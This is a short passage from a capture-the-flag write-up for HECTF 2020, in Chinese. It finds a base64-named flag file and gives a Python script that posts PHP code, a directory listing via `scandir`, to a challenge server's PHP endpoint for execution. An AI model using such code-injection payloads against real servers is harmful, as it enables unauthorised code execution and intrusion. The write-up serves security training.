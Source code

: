 ![image-20201129160403000](2020-HECTF-Write-up/image-20201129160403000.png)
发现异常文件`Zmw0Z2dnZ2dnZ2dnZ2dnCg`，访问后得到了flag

![image-20201129160434419](2020-HECTF-Write-up/image-20201129160434419.png)
最后base64一下发现`Zmw0Z2dnZ2dnZ2dnZ2dnCg`就是`fl4gggggggggggg`


Payload：
```python
import requests

url = "http://121.196.32.184:12001"

url1 = url+"/3b8cf4731c36d20776c76e20f9c774c7.php"

data = {
    "data" : "print_r(scandir(getcwd()));",
    "file" : "/very_g00d_Y0u_got_it.php"
}

requests.post(url1 , data=data)

```